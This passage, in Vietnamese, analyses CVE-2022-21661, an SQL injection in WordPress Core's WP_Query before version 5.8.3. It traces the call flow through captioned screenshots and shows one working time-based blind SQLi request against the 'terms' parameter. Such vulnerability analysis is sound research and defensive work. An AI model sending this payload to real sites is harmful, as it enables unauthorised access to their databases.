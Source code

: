 #### Flow

![callstack 1](callstack1.png "Đối tượng WP_Query được tạo")
![callstack 2](callstack2.png "Hàm __construct của WP_Query được gọi")
![callstack 3](callstack3.png "Gọi get_posts để thực thi query")
![callstack 4](callstack4.png "Điều kiện trong get_posts thỏa mãn, gọi get_sql")
![callstack 5](callstack5.png "get_sql trả về get_sql_clauses")
![callstack 6](callstack6.png "get_sql_clauses gọi get_sql_for_query")
![callstack 8](callstack8.png "Duyệt mảng query trong get_sql_for_query")
![callstack 15](callstack15.png "Kiểm tra keys terms, taxonomy, operator,...")
![callstack 7](callstack7.png "Gọi get_sql_for_clause")
![callstack 9](callstack9.png "Bypass clean_query giữ nguyên payload")
![callstack 10](callstack10.png "Payload gán vào $sql\['where']")
![callstack 11](callstack11.png "Thêm () vào mệnh đề WHERE")
![callstack 16](callstack16.png "Thêm AND và trả về get_sql")
![callstack 14](callstack14.png "get_posts nhận giá trị từ get_sql")
![callstack 12](callstack12.png "Payload thêm vào $clauses\['where']")
![callstack 13](callstack13.png "Quan sát last_query tại nơi thực thi SQL")

**Chart minh họa luồng thực thi**

![chart](chart.png "Biểu đồ luồng thực thi của WP_Query dẫn đến SQLi")

---

## Exploit

Thay giá trị của `terms` bằng payload SQLi:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](detect.png "Kết quả phản hồi cho thấy truy vấn chậm do payload hoạt động")

---

## Conclusion

Lỗ hổng **CVE-2022-21661** trong **WordPress Core** trước phiên bản **5.8.3**, quay ngược đến tận phiên bản **3.7.37**, xuất phát từ việc làm sạch dữ liệu (**sanitization**) không đúng cách trong `WP_Query` dẫn đến lỗ hổng SQL Injection.

---

[^tax_query]: Vì patch nằm trong file **src/wp-includes/class-wp-tax-query.php**, file này định nghĩa class `WP_Tax_Query`, chịu trách nhiệm xử lý tham số `tax_query` trong `WP_Query`. Nếu có thay đổi trong file này thì gần như chắc chắn nó liên quan đến quá trình **parse/validate** của `tax_query`.